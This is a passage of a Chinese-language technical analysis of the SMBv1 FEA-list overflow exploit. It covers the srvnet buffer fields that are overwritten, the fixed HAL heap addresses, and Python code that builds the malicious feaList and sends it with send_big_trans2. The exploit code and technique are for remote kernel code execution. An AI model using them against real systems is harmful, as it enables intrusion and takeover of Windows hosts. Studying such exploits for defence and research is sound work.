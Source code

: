 #### 0x02 越界如何触发命令执行

为了触发命令执行，这里引出关键数据结构srvnet，其中有2个关键字段：

* MDL(pMDl1): memory descriptor list;将I/O数据写入到指定的MDL指定虚拟地址中，在实际利用中client发送的数据会写入到指定的虚拟地址中，这样就可以传入可控的数据到指定的地址
* pSrvNetWskStruct: 指向SrvNetWskStruct结构体，该结构体中存在一个函数指针HandlerFunction，该函数会在srvnet连接中断时进行调用；那么如果pSrvNetWskStruct指向的结构体是伪造的，那么就可以很顺利的触发命令执行

这里利用的地址为HAL的heap的固定地址，因为在该段地址是可执行的

```
0xffd00000		# 32位
0xffffffff ffd00000	# 64位
```

只要能通过越界控制这两个字段就可以了，但如何将srv buff和srvnet buff拼接到一起？

#### 0x03 如何通过请求触发漏洞

这里结合exp，来看整个请求流程是如何进行的：

srv分配：SMBv1数据包可以触发srv的内存申请，类型为paged或者non-paged pool

srvnet分配： SMBv2数据包可以触发srvnet的内存申请，类型为paged或者non-paged pool

一、发送fealist分配srv：

```
send_big_trans2(conn, tid, 0, feaList, '\x00'*30, 2000, False)
```

这里利用了漏洞2并且保留最后的fragment不发送，其中fealist的内容如下：

```
NTFEA_SIZE = 0x11000
ntfea11000 = (pack('<BBH', 0, 0, 0) + '\x00')*600  # 这里对应的ntfea size是0x1c20，因为每一条fea记录转化为NTfea时都会增加5个字节
ntfea11000 += pack('<BBH', 0, 0, 0xf3bd) + 'A'*0xf3be  # 0x10fe8 - 0x1c20 - 0xc = 0xf3bc
ntfea = { 0x10000 : ntfea10000, 0x11000 : ntfea11000 }
feaList = pack('<I', 0x10000)
feaList += ntfea[NTFEA_SIZE]
feaList += pack('<BBH', 0, 0, len(fakeSrvNetBuffer)-1) + fakeSrvNetBuffer	# 需要越界覆盖的东西
feaList += pack('<BBH', 0x12, 0x34, 0x5678) # 无效的记录，会触发转换异常
```

这里对应的fealist的结构体如下：

```
typedef struct _FEA {   /* fea */
    BYTE fEA;        /* flags*/
    BYTE cbName;     /* name length not including NULL */
    USHORT cbValue;  /* value length */
} FEA, *PFEA;
 
typedef struct _FEALIST {    /* fealist */
    DWORD cbList;   /* total bytes of structure including full list */
    FEA list[1];    /* variable length FEA structures */
} FEALIST, *PFEALIST;
```
